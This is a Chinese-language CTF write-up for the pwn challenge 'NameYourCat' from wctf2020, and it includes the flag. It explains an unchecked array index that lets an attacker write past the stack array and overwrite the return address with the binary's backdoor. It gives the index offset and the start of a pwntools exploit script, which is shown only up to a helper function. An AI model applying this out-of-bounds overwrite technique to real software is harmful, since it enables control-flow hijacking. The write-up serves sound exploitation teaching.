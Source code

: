 ## NameYourCat - 4 solves

>Author: ColdShield

flag:`wctf2020{Cats_Are_Cute_right?}`

**程序分析**

![Gnwye1.png](https://s1.ax1x.com/2020/03/30/Gnwye1.png)

开启了canary还有栈不可执行，没有PIE

![Gnw6dx.png](https://s1.ax1x.com/2020/03/30/Gnw6dx.png)

main函数的意思就是5次循环，然后每次都执行一次NameWhich，这个函数的参数是v3

ps：因为IDA经常把函数的参数识别出问题，所以一定要点进具体的函数去看或者什么的

NameWhich是这样的

![GnwUiT.png](https://s1.ax1x.com/2020/03/30/GnwUiT.png)

在a1上按y将类型改成`char *`

![GnwdWF.png](https://s1.ax1x.com/2020/03/30/GnwdWF.png)

此时再来缕程序的意思，main'中v3是一个char [40]的数组，然后每次我们在NameWhich中输入的下标后寻址都是`a1[8*v2]`，所以这个时候大致就知道了原本程序应该是写了一个二维数组`[5][8]`

但是程序没有对我们输入的下标做检查，存在一个数组越界写，此时由于程序自带后门，数组在栈上，所以我们有一次将返回地址写成后门地址即可，具体下标经过简单计算即可得到：`(0x34+4)/8=7`（对计算下标不熟悉的一定要自己去算一算）

ps：这里还提个醒，这种输入的地方一定要注意有没有`\x0A`，就是换行符，如果输入字符串中碰到这个，scanf就直接截断了

**EXP**

```python
# -*- coding: utf-8 -*-
from __future__ import print_function
from pwn import *

binary = 'NameYourCat'	#binary's name here
context.binary = binary		#context here
context.log_level='debug'
pty = process.PTY
#p = process(binary, aslr = 1, stdin=pty, stdout=pty)	#process option here

Host ='0.0.0.0'
Port =2337
p = remote(Host,Port)

elf = ELF(binary)
libc = elf.libc

my_u64 = lambda x: u64(x.ljust(8, '\0'))
my_u32 = lambda x: u32(x.ljust(4, '\0'))
global_max_fast=0x3c67f8
codebase = 0x555555554000
def loginfo(what='',address=0):
	log.info("\033[1;36m" + what + '----->' + hex(address) + "\033[0m")

# todo here
def namefor(idx,name):
	p.recvuntil("which?\n>")
	p.sendline(str(idx))
	p.recvuntil('name plz: ')
	p.sendline(name)

```